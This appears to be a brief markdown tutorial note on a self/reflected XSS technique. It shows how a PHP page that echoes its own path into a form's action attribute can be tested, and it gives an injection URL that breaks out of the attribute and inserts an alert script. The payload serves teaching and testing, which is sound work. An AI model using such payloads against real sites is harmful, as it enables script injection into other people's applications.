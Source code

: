 # Self-XSS

Context URL:

```
https://example.com/example/page.php?search=...
```

Example source code of this page:

```html
<div class="form-search">
  <form action="/example/page.php" method="GET">
  <div class="form-box">
  <h1>Title</h1>
    ....
</div>
```

**To see if the application is vulnerable, try:**

```
https://example.com/example/page.php/
```

If the source code change to:

```html
<div class="form-search">
  <form action="/example/page.php/" method="GET">
  ...
</div>
```

Try to exploit with:

```html
https://example.com/example/page.php/"><script>alert("hacked")</script>
```

Note: `/">` To finalize the action tag and put the script tag
